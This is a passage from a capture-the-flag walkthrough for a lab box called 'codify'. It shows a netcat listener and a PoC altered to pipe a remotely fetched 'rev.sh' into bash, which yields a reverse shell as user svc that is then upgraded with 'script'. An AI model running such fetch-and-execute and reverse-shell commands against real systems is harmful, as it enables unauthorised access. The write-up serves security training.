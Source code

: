 ```shell
labadmin@labmachine:~/codify$ nc -lvnp 6000
Listening on 0.0.0.0 6000
```

Now we update the PoC script, instead of id we use curl to fetch the script and execute it by pipe it to bash.

'curl http://10.10.14.85:8000/rev.sh|bash'

![codify6](./assets/codify6.png)

Success, we got connection back to our Netcat listener as svc user.

```shell
labadmin@labmachine:~/codify$ nc -lvnp 6000
Listening on 0.0.0.0 6000
Connection received on 10.10.11.239 49612
sh: 0: can't access tty; job control turned off
$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```

To get a more stable shell, we run the script command to create a new PTY.

```shell
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
svc@codify:~$
```
